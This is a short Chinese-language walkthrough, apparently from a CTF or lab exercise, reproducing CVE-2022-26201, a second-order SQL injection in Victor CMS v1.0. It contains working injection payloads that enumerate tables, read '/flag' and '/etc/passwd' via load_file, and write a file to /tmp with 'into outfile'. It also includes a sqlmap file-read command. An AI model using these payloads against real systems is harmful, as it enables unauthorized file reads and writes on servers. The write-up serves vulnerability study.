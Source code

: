 ## 1. 漏洞介绍
Victor CMS v1.0 存在二次注入漏洞
## 2. 漏洞分析
[CVE-2022-26201.pdf](https://github.com/truonghuuphuc/CVE/blob/main/CVE-2022-26201.pdf)，文件内容就是下面两张图片。

![CVE-2022-26201_Page1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051833762.png)

![CVE-2022-26201_Page2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051834696.png)

## 3. 漏洞复现
**漏洞点测试**

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051746746.png)

手动注入示例

```sql
'),(concat((select table_name from information_schema.tables where table_schema='php_cms' limit 0,1)))-- -
```

手动注入没找到 flag 表，尝试直接从根目录读取 flag 

```sql
'),(concat((select load_file('/flag'))))-- -
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051829045.png)

也可以用sqlmap跑，但特别慢【时间盲注】

```shell
python sqlmap.py -r post.txt -p cat_title --batch --file-read "/flag"
```

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051831715.png)

## 4. SQL注入读写文件
SQL命令来读取文件

```
' and 1=2 union all select load_file('/etc/passwd')--+
```

接着尝试在/tmp目录写入文件

```
' and 1=2 union all select 'blablalba_bug_bounty_program' into outfile '/tmp/blablabla'--+
```
